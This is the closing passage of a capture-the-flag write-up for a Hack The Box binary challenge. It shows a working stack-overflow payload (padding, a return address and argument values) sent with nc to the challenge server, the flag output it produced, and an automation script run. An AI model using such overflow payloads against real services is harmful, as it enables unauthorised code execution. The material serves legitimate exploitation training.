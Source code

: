 Finally, trying this payload on the server side resulted in success:

```bash
└─# echo $(python3 -c "import sys; sys.stdout.buffer.write(b'A' * 188 + b'\xe2\x91\x04\x08' + b'DUMY' + b'\xef\xbe\xad\xde' + b'\x0d\xd0\xde\xc0')") | nc 83.136.252.57 32521
You know who are 0xDiablos: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA   AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAADUMYﾭ 
HTB{...}
```

Boom!

For automation, I wrote a Python script located in the this repo called [yesIknow.py](./yesIknow.py) (probably you won't get the flag at the first time, if you don't get the flag run it one more times):

```bash
└─# python3 yesIknow.py <IP> <PORT>
[+] Socket connected
b'You know who are 0xDiablos: \n'
[+] Payload sent
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xe2\x91\x04\x08DUMY\xef\xbe\xad\xde\r\xd0\xde\xc0\nHTB{...}'
[+] Socket closed
```
## Overview
Through this exercise, I enhanced my skills in static and dynamic binary analysis using various tools. I deepened my understanding of stack overflow vulnerabilities and the return-to-libc attack technique.

## Resources
* [Return-to-libc / ret2libc](https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/return-to-libc-ret2libc)
* [Bypassing non-executable-stack during exploitation using return-to-libc](https://css.csail.mit.edu/6.858/2014/readings/return-to-libc.pdf)
